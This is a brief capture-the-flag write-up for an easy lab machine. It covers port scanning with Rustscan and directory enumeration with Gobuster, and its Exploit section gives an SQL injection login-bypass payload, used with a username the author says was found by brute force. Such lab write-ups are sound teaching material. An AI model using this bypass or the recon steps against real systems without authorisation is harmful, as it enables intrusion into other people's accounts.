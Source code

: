 - - - 
created : 17-07-2025 

Tags : #easy  
- - - 
# Objective

Root it.

# Recon
## Rustscan

Let's use [Rustscan](../../3%20-%20Tags/Hacking%20Tools/Rustscan.md) to scan the open ports on the machine :

```
──(hax㉿HaxonKali)-[~]
└─$ rustscan -a 10.10.142.189 

         Open 10.10.142.189:22
         Open 10.10.142.189:80

```

# Enumeration
## Gobuster

We can now enumerate with [Gobuster](../../3%20-%20Tags/Hacking%20Tools/Gobuster.md) :

```
──(hax㉿HaxonKali)-[~]
└─$ gobuster dir -u 10.10.142.189 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt

/manual               (Status: 301) [Size: 315] [--> http://10.10.142.189/manual/]

```

# Exploit

![a05d1ee2b423e3bc978f0e6e93839d28.png](../../../2%20-%20Resources/Others/Flameshots/a05d1ee2b423e3bc978f0e6e93839d28.png)

We have a login page, let's try [SQL Injection](../../3%20-%20Tags/Hacking%20Concepts/SQL%20Injection.md) with a valid username (found with hydra) : `username: martin' AND '1'='1' -- - ; passw :asdf` :

<img src="../../Flameshots/d11bdce304c0c86f761e2ac0e0e0033c.png" alt="d11bdce304c0c86f761e2ac0e0e0033c.png" width="583" height="533">

And we have the [Flag](../../3%20-%20Tags/Hacking%20Concepts/Flag.md) .